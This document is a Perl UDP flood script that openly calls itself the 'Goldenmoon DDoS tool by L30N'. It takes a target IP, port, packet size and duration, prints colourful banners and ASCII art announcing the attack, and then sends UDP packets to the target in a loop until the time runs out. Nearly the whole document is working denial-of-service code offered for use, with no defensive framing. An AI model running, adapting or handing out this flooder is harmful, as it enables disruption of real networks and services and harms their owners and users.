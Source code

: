 #!/usr/bin/perl
 
use Term::ANSIColor qw(:constants);
    $Term::ANSIColor::AUTORESET = 2;

print BOLD RED "IP first";

print BOLD YELLOW "port Second\n";

print BOLD YELLOW "packets third";

print BOLD BLUE  "seconds last\n";
 
############
# L30N b4ck<----
############
 
use Socket;
use strict;
 
my ($ip,$port,$size,$time) = @ARGV;
 
my ($iaddr,$endtime,$psize,$pport);
 
$iaddr = inet_aton("$ip") or die "Cannot resolve hostname $ip\n";
$endtime = time() + ($time ? $time : 100);
socket(flood, PF_INET, SOCK_DGRAM, 17);
 
print BOLD YELLOW<<EOTEXT;

#################################################################################
#                             aaaaaaaaaaaaaaaa               *                  #
#                         aaaaaaaaaaaaaaaaaaaaaaaa                              #
#                      aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa                           #
#                    aaaaaaaaaaaaaaaaa           aaaaaa                         #
#                  aaaaaaaaaaaaaaaa                  aaaa                       #
#                 aaaaaaaaaaaaa aa                      aa                      #
#*               aaaaaaaa      aa                         a                     #
#                aaaaaaa aa aaaa                                                #
#          *    aaaaaaaaa     aaa                                               #
#               aaaaaaaaaaa aaaaaaa                               *             #
#               aaaaaaa    aaaaaaaaaa                                           #
#               aaaaaa a aaaaaa aaaaaa                                          #
#                aaaaaaa  aaaaaaa                                               #
#                aaaaaaaa                                 a                     #
#                 aaaaaaaaaa                            aa                      #
#                  aaaaaaaaaaaaaaaa                  aaaa                       #
#                    aaaaaaaaaaaaaaaaa           aaaaaa        *                #
#      *               aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa                           #
#                         aaaaaaaaaaaaaaaaaaaaaaaa                              #
#                      *      aaaaaaaaaaaaaaaa                                  #
#################################################################################         IP: $ip
                                                                                          PORT: $port
                                                                                         PACKETS: $size
                                                                                         TIME: $time
 

Ferramenta de DDoS Por L30N $ip with $size packets.

-Goldenmoon DDoS tool by L30N.
Author: L30N               
       
EOTEXT
 
use Term::ANSIColor qw(:constants);
    $Term::ANSIColor::AUTORESET = 2;
print "~ DDoS is love DDoS is live~ $ip " . ($port ? $port : "random") . "-" .
  ($size ? "$size-byte" : "Fuck all") . "
~ Attacking $ip.
~ #0FFL1N3 ~ " .
  ($time ? " for $time seconds" : "") . "\n";
print "Break with Ctrl-C\n" unless $time;  
 
for (;time() <= $endtime;) {
  $psize = $size ? $size : int(rand(1500000-64)+64) ;
  $pport = $port ? $port : int(rand(1500000))+1;
 
send(flood, pack("a$psize","flood"), 0, pack_sockaddr_in($pport,
 $iaddr));}

 
               
       


